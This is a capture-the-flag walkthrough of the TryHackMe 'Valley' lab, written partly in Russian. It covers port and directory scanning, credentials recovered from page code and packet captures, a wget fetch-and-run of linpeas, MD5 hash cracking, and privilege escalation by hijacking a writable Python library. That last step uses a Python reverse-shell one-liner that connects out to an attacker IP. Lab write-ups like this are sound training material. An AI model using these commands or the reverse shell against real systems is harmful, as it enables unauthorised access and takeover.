 https://tryhackme.com/room/valleype
>IP:10.10.156.47

# RECON
>nmap -p- 10.10.156.47 -T5 -vv
```
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
37370/tcp open  unknown syn-ack ttl 63
```

>sudo nmap -sC -sV -Pn 10.10.156.47 -p80,22,37370
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

```
http://10.10.156.47/pricing/note.txt
```

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427083729.png)

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt:FFUZ -u http://10.10.156.47/FFUZ -ic -c

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427084201.png)

```
sudo bash -c  'echo "10.10.156.47    valley.thm" > /etc/hosts'
```

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://valley.thm/ -H 'Host: FUZZ.valley.thm' -fs 1163
```

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://valley.thm/static/FFUZ -ic -c -e txt,php

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090220.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090234.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090516.png)
### Обработка данных на стороне клиента 
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090634.png)
```
siemDev:california
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090831.png)

```
get siemFTP.pcapng
get siemHTTP1.pcapng
get siemHTTP2.pcapng
```

```
anonymous:anonymous
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427091229.png)

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092411.png)

## siemHTTP2.pcapng

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092639.png)

```
valleyDev:ph0t0s1234
```

>ssh valleyDev@10.10.156.47   

# LPE
## Flag1
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092927.png)

Linpeas
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```
python3 -m http.server 80
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

==Vulnerable to CVE-2021-3560==
```
root:x:0:0:root:/root:/bin/bash                                                    siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash
valley:x:1000:1000:,,,:/home/valley:/bin/bash
```
photos/script/photosEncrypt.py 

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427094104.png)

```
scp valleyDev@10.10.156.47:/home/valleyAuthenticator /tmp 
```

```
strings valleyAuthenticator
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427101205.png)

```
hashcat -m 0 "e6722920bab2326f8217e4bf6b1b58ac" /usr/share/wordlists/rockyou.txt
```
>e6722920bab2326f8217e4bf6b1b58ac:liberty123    
```
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

```
valleyDev@valley:/home$ ls -la /photos/script/photosEncrypt.py 
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py


valleyDev@valley:/home$ cat /photos/script/photosEncrypt.py 

#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14.77",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
nc -lnvp 1337
```

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103329.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103429.png)